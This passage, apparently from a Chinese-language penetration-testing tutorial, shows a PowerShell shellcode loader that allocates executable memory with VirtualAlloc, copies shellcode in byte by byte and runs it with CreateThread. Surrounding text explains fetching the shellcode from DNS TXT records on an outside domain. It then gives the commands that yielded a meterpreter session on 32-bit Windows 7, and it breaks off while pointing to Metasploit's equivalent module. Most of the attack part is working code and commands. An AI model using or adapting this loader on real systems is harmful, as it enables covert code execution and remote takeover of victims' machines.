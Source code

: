 ```
    $code = @"
    [DllImport("kernel32.dll")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32.dll")]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    [DllImport("msvcrt.dll")]
    public static extern IntPtr memset(IntPtr dest, uint src, uint count);
"@
    $winFunc = Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru
    $size = 0x1000 
    if ($sc.Length -gt 0x1000) {$size = $sc.Length} 
    $x=$winFunc::VirtualAlloc(0,0x1000,$size,0x40) 
    for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt64()+$i), $sc[$i], 1)}
    Try {
        $winFunc::CreateThread(0,0,$x,0,0,0)
        sleep 100000
        }
    Catch
    {
    [system.exception]
    "caught a system exception"
    }
}

```

> 参数说明，**Shelldomain **为创建txt记录的域名或子域名;**subdomains**为创建TXT域名的个数，如上面所创建的为3;**AUTHNS **为域的权威名称服务器，如我使用的狗爹，所以AUTHNS为f1g1ns2.dnspod.net

在32位win7上执行：

```
PS C:\Users\evi1cg\Desktop> . .\Execute-Code.ps1
PS C:\Users\evi1cg\Desktop> Execute-Code -Shelldomain 32.evi1cg.me -subdomains 3 -AUTHNS f1g1ns2.dnspod.net

```

成功获取meterpreter会话：

![Alt text](http://drops.javaweb.org/uploads/images/c73eef6506e9cc1b3c7968793a7f496d5fcb27e7.jpg)

64位的请自行修改payload及脚本。

0x04 补充
=======

* * *

Metasploit中已经含有此脚本[dns_txt_query_exec.rb](https://raw.githubusercontent.com/rapid7/metasploit-framework/master/modules/payloads/singles/windows/dns_txt_query_exec.rb)，此脚本查询TXT记录的顺序为a.domain,b.domain...,下面是一个示例，首先生成payload:
